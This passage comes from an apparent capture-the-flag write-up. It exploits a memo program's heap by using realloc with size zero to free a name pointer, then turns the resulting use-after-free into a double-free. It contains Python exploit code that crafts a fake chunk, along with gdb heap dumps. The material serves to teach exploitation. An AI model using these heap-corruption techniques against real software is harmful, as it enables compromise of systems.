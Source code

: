 As you can see, if the pointer provided **isn't NULL** and the **requested bytes are 0**, `__libc_realloc` will **free** the
pointer argument and return. Sweet! Since we control both of the arguments, we can call `edit` on a memo whose `namesz` field
is 0 and as a result **free** the name pointer! Now you might be wondering, how can we take advantage of that UAF since we can't 
write to it (namesz is 0)? Well, with a lil' bit of heap wizardry, we can leverage this UAF into a double-free! But first,
let's request some allocations.

```python
alloc(0, '') 	          # memo_0
alloc(0x80, 'A'*8)        # memo_1
alloc(0x68, ' B'*8)       # memo_2
# Craft fake FD pointer
fake_chunk  = p64(0x20)*6
fake_chunk += p64(heap + 0x200)
fake_chunk += p64(0x20) * 9
fake_chunk += p64(0)
alloc(0x88, fake_chunk)   # memo_3
# Take care of next size check
alloc(0x68, p64(0x21)*10) # memo_4
```

Forget about the `fake_chunk` and the comments for now and focus on the allocations. You will understand why I did what I did
shortly.

```
gdb-peda$ x/6gx 0x555555756060 <-- array of memo*
                     [memo_0]            [memo_1]
0x555555756060:	0x00005555557572d0	0x0000555555757030
                     [memo_2]            [memo_3]
0x555555756070:	0x00005555557570e0	0x0000555555757170
                     [memo_4]           
0x555555756080:	0x0000555555757220	0x0000000000000000
```

Time to trigger the UAF.

```python
edit(0, 0, '')
```

```
(0x20)     fastbin[0]: 0x555555757000 --> 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0

gdb-peda$ x/4gx 0x00005555557572d0 - 0x10
0x5555557572c0:	0x0000000000000020	0x0000000000000020 <-- memo_0
0x5555557572d0:	0x0000555555757010	0x0000000000000000 <-- memo->namesz/memo->ref
                         ^
                         |
        memo_0->name - - +
```
